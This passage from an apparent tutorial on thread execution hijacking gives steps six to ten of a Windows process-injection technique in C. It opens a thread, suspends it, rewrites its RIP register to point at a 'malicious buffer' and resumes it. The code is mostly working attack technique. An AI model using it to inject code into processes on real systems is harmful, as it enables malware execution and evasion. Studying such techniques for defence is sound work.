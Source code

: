 ```
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
```

At step six, we must suspend the opened target thread. To suspend the thread we can use `SuspendThread`.

```
SuspendThread(hThread);
```

At step seven, we need to obtain the thread context to use in the upcoming API calls. This can be done using `GetThreadContext` to store a pointer.

```
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

At step eight, we need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. If you are not already familiar with CPU registers, RIP is an x64 register that will determine the next code instruction; in a nutshell, it controls the flow of an application in memory. To overwrite the register we can update the thread context for RIP.

```
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using `SetThreadContext` and the pointer for the context.

```
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);
```

At the final step, we can now take the target thread out of a suspended state. To accomplish this we can use `ResumeThread`.

```
ResumeThread(
	hThread // Handle for the thread
);
```
